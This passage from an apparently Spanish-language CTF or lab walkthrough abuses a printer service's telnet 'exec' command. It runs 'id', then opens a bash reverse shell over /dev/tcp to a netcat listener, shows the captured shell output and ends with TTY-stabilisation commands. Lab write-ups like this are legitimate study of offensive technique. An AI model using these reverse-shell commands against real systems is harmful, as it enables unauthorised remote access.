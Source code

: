 ```

addrawport: <TCP port num> (<TCP port num> 3000-9000)
deleterawport: <TCP port num>
listrawport: (No parameter required)

exec: execute system commands (exec id)
exit: quit from telnet session
```

Vemos que con `exec` podemos ejecutar comandos a nivel de sistema, por lo que vamos a probar a ejecutar lo siguiente:

```shell
exec id
```

Info:

```
uid=1000(printer) gid=1000(printer) grupos=1000(printer)
```

Veremos que esta funcionando, por lo que vamos a realizar un `reverse shell` de esta forma:

```shell
exec bash -c 'bash -i >& /dev/tcp/<IP>/<PORT> 0>&1'
```

Ahora antes de enviarlo nos pondremos a la escucha:

```shell
nc -lvnp <PORT>
```

Ahora si enviamos lo de antes y volvemos a donde tenemos la escucha veremos lo siguiente:

```
listening on [any] 7777 ...
connect to [192.168.5.50] from (UNKNOWN) [192.168.5.86] 55832
bash: no se puede establecer el grupo de proceso de terminal (311): Función ioctl no apropiada para el dispositivo
bash: no hay control de trabajos en este shell
printer@printer:/var/spool/lpd$ whoami
whoami
printer
```

Veremos que ha funcionado, por lo que tendremos que sanitizar la `shell`.

### Sanitización de shell (TTY)

```shell
script /dev/null -c bash
```

```shell
# <Ctrl> + <z>
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=/bin/bash

# Para ver las dimensiones de nuestra consola en el Host
stty size

# Para redimensionar la consola ajustando los parametros adecuados
stty rows <ROWS> columns <COLUMNS>
```
